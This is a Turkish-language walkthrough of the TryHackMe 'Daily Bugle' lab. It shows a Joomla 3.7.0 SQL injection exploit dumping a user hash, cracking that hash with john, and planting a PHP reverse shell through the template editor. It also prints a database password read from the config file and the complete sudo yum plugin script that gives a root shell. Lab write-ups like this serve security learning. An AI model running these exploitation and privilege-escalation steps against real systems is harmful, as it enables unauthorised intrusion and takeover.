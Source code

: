 ```yaml
---
title: 'TryHackMe | Daily Bugle WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [sql injection, sudo]
render_with_liquid: false
media_subpath: /images/tryhackme_daily_bugle/
image:
  path: logo.webp
---
```


## Özet

Daily Bugle, SQL injection zafiyetli eklentiye sahip olan bir joomla uygulamasıdır. Bu zafiyete özel olarak hazırlanmış bir sömürü aracından faydalanarak kullanıcı bilgilerini elde edeğiz. Daha sonra bu bilgileri kullanarak içerik yönetim sistemine giriş yapacak ve temalar kısmından php reverse shell kodumuzu yükleyeceğiz. Bağlantı sonrasında ise joomla'nın konfigürasyon dosyasınından bir kullanıcının parolasını alacak ve onun hesabına geçeceğiz. Sonra da root haklarıyla çalıştırabileceğimiz yum aracı için bir eklenti yazacak ve çalıştırdıktan sonra root haklarına sahip olacağız.

## Keşif aşaması

### Nmap taraması

![](1.webp){: width="1200" height="600" }

Tarama sonucunda 22 (SSH), 80 (HTTP) ve 3306 (Mysql) numaralı portların açık olduğunu öğreniyoruz.

### 80 numaralı port'un incelenmesi

![](2.webp){: width="1200" height="600" }

Web uygulamasında örümcek adamın hırsızlık yaptığı bir haber paylaşılmış. Haberi paylaşan kişinin ismi `Super User`. Uygulamanın favicon dosyasına baktığımızda `joomla` içerik yönetim sisteminin kullanıldığını öğreniyoruz. Joomscan aracını kullanarak hedef uygulamayı tarayalım.

```console
$ joomla -u 10.10.19.236
...
[+] Detecting Joomla Version                                                                                                                                                                  
[++] Joomla 3.7.0 
...
```

Tarama sonucunda içerik yönetim sisteminin 3.7.0 sürümünü kullandığını öğrendik. Adını ve sürümünü google da arattıktan sonra [bu](https://github.com/stefanlucas/Exploit-Joomla/blob/master/joomblah.py) exploit ile karşılaşıyoruz.

## Sömürü aşaması

Exploit'i indirdikten sonra çalıştırıyor ve kullanıcı bilgilerini elde ediyoruz.

```console
$ python3 joomblah.py http://10.10.19.236/
...
[-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

Elde ettiğimiz hash'i john aracının yardımıyla kıralım.

```console
$ john hash -w=Desktop/rockyou.txt 
[sudo] password for appdone: 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s***3    (?)
...
```

Kullanıcı bilgilerini kullanarak SSH servisine bağlanmayı denedim ama olmadı. Daha sonra joomla paneline giriş yaptıktan sonra temalar kısmından ana sayfaya php shell kodumu girdim.

![](3.webp){: width="1200" height="600" }

Kayıt ettikten sonra "Template Preview" butonuna tıkladığımızda reverse shell kodunu çalıştırıyor ve sisteme ilk adımımızı atıyoruz.

## Yetki yükseltme

### jjameson

Joomla uygulamasının konfigürasyon dosyasının içerisinden `jjameson` kullanıcısının parolasını alıyoruz.

```console
bash-4.2$ cat configuration.php
public $dbtype = 'mysqli';                                                                                                                                                            
public $host = 'localhost';                                                                                                                                                           
public $user = 'root';                                                                                                                                                                
public $password = 'nv5uz9r3ZEDzVjNu';                                                                                                                                                
public $db = 'joomla';
```

Kullanıcıya geçiş yaptıktan sonra ilk bayrağı kendi dizininden alıyoruz.

# root

`sudo -l` komutunu kullandıktan sonra yum aracını parola gerektirmeden ve tüm kullanıcılar adına çalıştırabileceğimizi öğreniyoruz.

```console
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

yum aracını kullanarak nasıl yetki yükseltebileceğimizi öğrenmek için [GTFOBins](https://gtfobins.github.io/gtfobins/yum/#sudo) sitesinden faydalanıyoruz. Oradan aldığımız komutu sistemde çalıştırdıktan sonra root yetkisinde bir shell'e sahip oluyoruz.

```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

Bu komut yığını root kullanıcısına geçiş yapabilmemiz için bir eklenti oluşturuyor. Eklentileri aktif ettikten sonra belirtilen eklenti adresinden eklentiyi alıp çalıştırıyor, böyleye root haklarına sahip bir shell elde ediyoruz.
